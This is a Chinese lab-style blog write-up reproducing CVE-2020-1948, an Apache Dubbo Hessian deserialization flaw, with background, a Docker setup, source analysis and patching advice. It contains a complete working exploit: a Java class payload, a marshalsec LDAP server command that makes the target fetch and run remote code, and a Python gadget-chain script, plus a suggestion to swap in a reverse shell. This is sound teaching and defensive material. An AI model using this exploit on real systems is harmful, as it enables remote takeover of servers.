






# 【CVE-2020-1948】Apache Dubbo Provider 反序列化漏洞复现 - twosmi1e - 博客园

> 原文：[`www.cnblogs.com/twosmi1e/p/14765893.html`](https://www.cnblogs.com/twosmi1e/p/14765893.html)

## 一、实验简介

*   实验所属系列： 系统安全
*   实验对象：本科/专科信息安全专业
*   相关课程及专业： 计算机网络
*   实验时数（学分）：2 学时
*   实验类别： 实践实验类

## 二、实验目的

Apache Dubbo 是一款高性能、轻量级的开源 Java RPC 框架，它提供了三大核心能力：面向接口的远程方法调用，智能容错和负载均衡，以及服务自动注册和发现。本实验详细介绍了有关的系统知识和分析该漏洞原因并复现该漏洞。通过该实验了解该漏洞，并利用该实验了解、基本掌握漏洞环境搭建技巧，通过复现该漏洞，了解工具的一些知识。

## 三、预备知识

### 3.1 RPC

RPC（Remote Procedure Call）远程过程调用协议，一种通过网络从远程计算机上请求服务，而不需要了解底层网络技术的协议。RPC 它假定某些协议的存在，例如 TPC/UDP 等，为通信程序之间携带信息数据。在 OSI 网络七层模型中，RPC 跨越了传输层和应用层，RPC 使得开发，包括网络分布式多程序在内的应用程序更加容易。


### 3.2 dubbo



dubbo 支持多种序列化方式并且序列化是和协议相对应的。比如：Dubbo 支持 dubbo、rmi、hessian、http、webservice、thrift、redis 等多种协议。
这里介绍的 dubbo 漏洞里的 dubbo 指的是 RPC 框架。dubbo 同时是阿里尚未开发成熟的高效 java 序列化实现，阿里不建议在生产环境使用它。

### 3.3 Hessian

> hessian 是一种跨语言的高效二进制序列化方式。但这里实际不是原生的 hessian2 序列化，而是阿里修改过的 hessian lite，Hessian 是二进制的 web service 协议，官方对 Java、Flash/Flex、Python、C++、.NET C#等多种语言都进行了实现。Hessian 和 Axis、XFire 都能实现 web service 方式的远程方法调用，区别是 Hessian 是二进制协议，Axis、XFire 则是 SOAP 协议，所以从性能上说 Hessian 远优于后两者，并且 Hessian 的 JAVA 使用方法非常简单。它使用 Java 语言接口定义了远程对象，集合了序列化/反序列化和 RMI 功能。

Hessian 协议用于集成 Hessian 的服务，Hessian 底层采用 Http 通讯，采用 Servlet 暴露服务，Dubbo 缺省内嵌 Jetty 作为服务器实现。

Dubbo 的 Hessian 协议可以和原生 Hessian 服务互操作，即：

*   提供者用 Dubbo 的 Hessian 协议暴露服务，消费者直接用标准 Hessian 接口调用
*   或者提供方用标准 Hessian 暴露服务，消费方用 Dubbo 的 Hessian 协议调用

一个简单的 Hessian 序列化使用方法

```
import com.caucho.hessian.io.Hessian2Output;
import java.io.ByteArrayOutputStream;
import java.io.Serializable;
class User implements Serializable {
public static void main(String[]args){
//        System.out.println("hehe");
        }
}
public class HessianTest {
    public static void main(String[] args) throws Exception {
        Object o=new User();
        ByteArrayOutputStream os = new ByteArrayOutputStream();
        Hessian2Output output = new Hessian2Output(os);
        output.writeObject(o);
        output.close();
        System.out.println(os.toString());
    }
} 
```

### 3.4 协议关系

Dubbo 和序列化到底是怎么个关系，可以从以下几点考虑：

1.  Dubbo 从大的层面上将是 RPC 框架，负责封装 RPC 调用，支持很多 RPC 协议
2.  RPC 协议包括了 dubbo、rmi、hession、webservice、http、redis、rest、thrift、memcached、jsonrpc 等
3.  Java 中的序列化有 Java 原生序列化、Hessian 序列化、Json 序列化、dubbo 序列化
    

### 3.5 漏洞原理

主要利用 Dubbo 协议调用其他 RPC 协议时会涉及到数据的序列化和反序列化操作。如果没有做检查校验很有可能成功反序列化攻击者精心构造的恶意类，利用 java 调用链使服务端去加载远程的 Class 文件，通过在 Class 文件的构造函数或者静态代码块中插入恶意语句从而达到远程代码执行的攻击效果。

## 四、实验环境

*   docker
*   python
*   java
*   marshalsec-jar

## 五、实验步骤

【CVE-2020-1948】为反序列化漏洞，这个漏洞导致远程攻击者可以通过构造恶意反序列化数据执行任意命令，进而获取服务器权限。我们的任务分为三部分：

*   实验环境启动
*   漏洞利用
*   拓展任务

### 5.1 实验环境启动

**任务描述：**本次实验通过使用 docker 搭建 dubbo 漏洞环境，为后续复现漏洞做准备。

1.  通过命令`docker pull dsolab/dubbo:cve-2020-1948` 拉取 docker 环境。
2.  通过命令`docker run -p 12345:12345 dsolab/dubbo:cve-2020-1948 -d`启动镜像，如图说明启动成功。
    

### 5.2 漏洞利用

**任务描述：**本次实验通过各种工具配合来对实验环境进行攻击，达到执行命令的效果。

1.  准备 exp 文件，编写 exp.java 如下

```
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class exp {
    public exp(){
        try {
            java.lang.Runtime.getRuntime().exec("touch /tmp/success");
        } catch (java.io.IOException e) {
            e.printStackTrace();
        }
    }
} 
```

2.  编译 java 文件`javac exp.java`
    

3.  使用 python 在该目录启动 HttpServer
    

4.  下载 marshalsec-jar

```
git clone https://github.com/RandomRobbieBF/marshalsec-jar.git 
```

5.  使用 marshalsec-jar 启动 LDAP 代理服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.31.153/#exp 777 
```

192.168.31.153 为我本机 IP


6.  使用 poc 编写 python 脚本

```
# -*- coding: utf-8 -*-

import sys

from dubbo.codec.hessian2 import Decoder,new_object
from dubbo.client import DubboClient

if len(sys.argv) < 4:
  print('Usage: python {} DUBBO_HOST DUBBO_PORT LDAP_URL'.format(sys.argv[0]))
  print('\nExample:\n\n- python {} 1.1.1.1 12345 ldap://1.1.1.6:80/exp'.format(sys.argv[0]))
  sys.exit()

client = DubboClient(sys.argv[1], int(sys.argv[2]))

JdbcRowSetImpl=new_object(
  'com.sun.rowset.JdbcRowSetImpl',
  dataSource=sys.argv[3],
  strMatchColumns=["foo"]
  )
JdbcRowSetImplClass=new_object(
  'java.lang.Class',
  name="com.sun.rowset.JdbcRowSetImpl",
  )
toStringBean=new_object(
  'com.rometools.rome.feed.impl.ToStringBean',
  beanClass=JdbcRowSetImplClass,
  obj=JdbcRowSetImpl
  )

resp = client.send_request_and_return_response(
  service_name='org.apache.dubbo.spring.boot.sample.consumer.DemoService',
  # 此处可以是 $invoke、$invokeSync、$echo 等，通杀 2.7.7 及 CVE 公布的所有版本。
  method_name='$invoke',
  args=[toStringBean]) 

output = str(resp)
if 'Fail to decode request due to: RpcInvocation' in output:
  print('[!] Target maybe not support deserialization.')
elif 'EXCEPTION: Could not complete class com.sun.rowset.JdbcRowSetImpl.toString()' in output:
   print('[+] Succeed.')
else:
  print('[!] Output:')
  print(output)
  print('[!] Target maybe not use dubbo-remoting library.') 
```

保存为 exp.py

7.  执行 exp.py

```
python3 exp.py 192.168.31.153 12345 ldap://192.168.31.153:777/exp 
```


可以看到通过 LDAP 代理重定向去访问了之前编译的 exp.class 文件。


8.  使用`docker exec -it 264f1bb1fede "/bin/bash"`进入容器，可以看到我们在/tmp 目录下成功创建了 success 文件，说明漏洞利用成功。
    

### 拓展任务

上个任务执行的命令是在 exp.py 中定义的

```
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class exp {
    public exp(){
        try {
            java.lang.Runtime.getRuntime().exec("touch /tmp/success");\\命令定义
        } catch (java.io.IOException e) {
            e.printStackTrace();
        }
    }
} 
```

可以尝试修改命令执行，比如反弹 shell 或者用 dnslog 探查漏洞。

## 六、漏洞分析

### 利用链分析

在 marshalsec 工具中，提供了对于 Hessian 反序列化可利用的几条链：
[`github.com/mbechler/marshalsec`](https://github.com/mbechler/marshalsec)
[`www.github.com/mbechler/marshalsec/blob/master/marshalsec.pdf?raw=true`](https://www.github.com/mbechler/marshalsec/blob/master/marshalsec.pdf?raw=true)


对于 dubbo 反序列化可利用的条件：

1.  默认 dubbo 协议+hessian2 序列化方式
2.  序列化 tcp 包可随意修改方法参数反序列化的 class
3.  反序列化时先通过构造方法实例化，然后在反射设置字段值
4.  构造方法的选择，只选择花销最小并且只有基本类型传入的构造方法

如果要实现远程命令执行，需要找到符合以下条件的 gadget chain：

1.  有参构造方法
2.  参数不包含非基本类型
3.  cost 最小的构造方法并且全部都是基本类型或 String

这样的利用条件太苛刻了，不过万事没绝对，参考 marshalsec，可以利用 rome 依赖使用 HashMap 触发 key 的 hashCode 方法的 gadget chain 来打，以下是对 hessian2 反序列化 map 的源码跟踪：

```
Override
@SuppressWarnings("unchecked")
public <T> T readObject(Class<T> cls) throws IOException,
        ClassNotFoundException {
    return (T) mH2i.readObject(cls);
} 
```

```
@Override
public Object readObject(Class cl)
        throws IOException {
    return readObject(cl, null, null);
} 
```

```
@Override
public Object readObject(Class expectedClass, Class<?>... expectedTypes) throws IOException {
    //...
    switch (tag) {
        //...
        case 'H': {
            Deserializer reader = findSerializerFactory().getDeserializer(expectedClass);

            boolean keyValuePair = expectedTypes != null && expectedTypes.length == 2;
            // fix deserialize of short type
            return reader.readMap(this
                    , keyValuePair ? expectedTypes[0] : null
                    , keyValuePair ? expectedTypes[1] : null);
        }
        //...    
    }
} 
```

```
@Override
public Object readMap(AbstractHessianInput in, Class<?> expectKeyType, Class<?> expectValueType) throws IOException {
    Map map;

    if (_type == null)
        map = new HashMap();
    else if (_type.equals(Map.class))
        map = new HashMap();
    else if (_type.equals(SortedMap.class))
        map = new TreeMap();
    else {
        try {
            map = (Map) _ctor.newInstance();
        } catch (Exception e) {
            throw new IOExceptionWrapper(e);
        }
    }

    in.addRef(map);

	doReadMap(in, map, expectKeyType, expectValueType);

    in.readEnd();

    return map;
} 
```

```
protected void doReadMap(AbstractHessianInput in, Map map, Class<?> keyType, Class<?> valueType) throws IOException {
    Deserializer keyDeserializer = null, valueDeserializer = null;

    SerializerFactory factory = findSerializerFactory(in);
    if(keyType != null){
        keyDeserializer = factory.getDeserializer(keyType.getName());
    }
    if(valueType != null){
        valueDeserializer = factory.getDeserializer(valueType.getName());
    }

    while (!in.isEnd()) {
        map.put(keyDeserializer != null ? keyDeserializer.readObject(in) : in.readObject(),
                valueDeserializer != null? valueDeserializer.readObject(in) : in.readObject());
    }
} 
```

从上面贴出来的部分执行栈信息，可以清晰的看到，最终在反序列化中实例化了新的 HashMap，然后把反序列化出来的实例 put 进去，因此，会触发 key 的 hashCode 方法。

## 七、总结与修复

### 总结

如果系统开启了 dubbo 端口（如 1.2.3.4:12345），攻击者使用 python 模拟 dubbo 通信协议发送 rpc 请求，数据包含带有无法识别的服务名称 service_nam 或方法名称 method_name，及恶意参数（JdbcRowSetImpl 等），在反序列化这些恶意参数时便会触发 JNDI 注入，导致执行任意恶意代码。

因此攻击难度较低，但攻击危害很大。

### 防御手段

1.  更新至 2.7.7 版本：
    [`github.com/apache/dubbo/releases/tag/dubbo-2.7.7`](https://github.com/apache/dubbo/releases/tag/dubbo-2.7.7)

2.  通用防御措施，增加反序列化前的 service name 的判断，但如果控制到中间注册中心还是会存在攻击风险；

3.  hessian 自身没有其他序列化包做 gadgets 层的防护，建议使用时进行拓展，可以参考 SOFA 的处理([`github.com/sofastack/sofa-hessian`](https://github.com/sofastack/sofa-hessian) ) 来增加对应的黑名单过滤器。